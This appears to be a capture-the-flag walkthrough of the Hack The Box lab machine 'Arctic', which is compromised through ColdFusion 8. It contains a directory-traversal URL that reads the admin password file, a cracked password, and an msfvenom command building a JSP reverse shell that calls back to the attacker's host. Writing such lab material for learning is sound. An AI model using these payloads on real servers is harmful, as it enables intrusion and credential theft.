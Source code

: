 ```yaml
---
description: 10.10.10.11
---
```


# Arctic

## Nmap

```
sudo nmap -Pn -p- 10.10.10.11 --min-rate=5000
```

![](<../../../.gitbook/assets/image (8) (1).png>)

Ran a script script based on open ports

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Aug 10 16:56:59 2022 as: nmap -Pn -p135,8500,49154 -sCV -O -v -oN script-scan.txt 10.10.10.11
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.040s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Wed Aug 10 16:46:55 2022)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 16:59:18 2022 -- 1 IP address (1 host up) scanned in 139.14 seconds
```
{% endcode %}

## FMTP Port 8500

{% embed url="https://www.eurocontrol.int/service/flight-message-transfer-protocol-address-coordination" %}

> Flight Message Transfer Protocol (FMTP) is a communication stack based on the transmission control and internet protocols (TCP/IP). It is used in a peer-to-peer communication context for the information exchange between flight data processing systems for the purpose of notification, coordination and transfer of flights between air traffic control units and for the purposes of civil-military cooperation.

I look to see if there's anything interesting that can be looked at on the browser on this particular port

![](<../../../.gitbook/assets/image (5) (1).png>)

Clicking on `CFIDE` leads to some pretty interesting findings

![](<../../../.gitbook/assets/image (11) (1).png>)

I'm most interested in the `administrator` link, so going there takes me to an Admin page!

![](<../../../.gitbook/assets/image (7) (1).png>)

## Searchsploit

I search for any public exploits in searchsploit

![](<../../../.gitbook/assets/image (9) (1).png>)

The Remote Code Execution python script catches my eye so I'll view that one

![](<../../../.gitbook/assets/image (6) (1).png>)

{% embed url="https://www.exploit-db.com/exploits/50057" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2265" %}

> Multiple directory traversal vulnerabilities in FCKeditor before 2.6.4.1 allow remote attackers to create executable files in arbitrary directories via directory traversal sequences in the input to unspecified connector modules, as exploited in the wild for remote code execution in July 2009, related to the file browser and the editor/filemanager/connectors/ directory.

## Foothold #1 - RCE Script

This python script does it all! We'll change the listening host IP and port number (in case firewall rules don't like weird port numbers)&#x20;

Then we run it and get a shell!

![](<../../../.gitbook/assets/image (2) (1).png>)

## Foothold #2 - Directory Traversal

There was also a metasploit module for directory traversal. I was curious about it so I checked it out and found this

{% embed url="https://www.exploit-db.com/exploits/14641" %}

![](<../../../.gitbook/assets/image (4) (1).png>)

I decided to do this without the python script since you technically don't need to

{% code overflow="wrap" %}
```
http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
{% endcode %}

As you can see, there's a password that's encrypted, so we should crack it.

### Cracking the hash

![](<../../../.gitbook/assets/image (18) (2).png>)

```
happyday
```

&#x20;Because we have a password, we can log in!

![](<../../../.gitbook/assets/image (15).png>)

### Getting a shell

This is an excellent resource I found that could assist with getting a reverse shell

{% embed url="https://pentest.tonyng.net/attacking-adobe-coldfusion/" %}

Generate our payload with  msfvenom

{% code overflow="wrap" %}
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > revshell.jsp
```
{% endcode %}

Schedule a New Task

![](<../../../.gitbook/assets/image (10).png>)

Make sure to save the output to a file in a valid directory. I had to check for what it was on google

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

![](<../../../.gitbook/assets/image (8).png>)

Before you run the scheduled task, make sure to have a web server (I use python) running so it will download your payload

![](<../../../.gitbook/assets/image (4).png>)

![](<../../../.gitbook/assets/image (1).png>)

![](<../../../.gitbook/assets/image (7).png>)

Now start your listener and go to the file in your web browser to catch a shell!

![](<../../../.gitbook/assets/image (12).png>)

## Priv Esc

### SystemInfo

![](<../../../.gitbook/assets/image (14).png>)

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### whoami /all

![](<../../../.gitbook/assets/image (16).png>)



## Windows Exploit Suggester

![](<../../../.gitbook/assets/image (3) (3).png>)

{% embed url="https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled" %}

I've seen online people using this, however I cannot get it work

## Resources

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

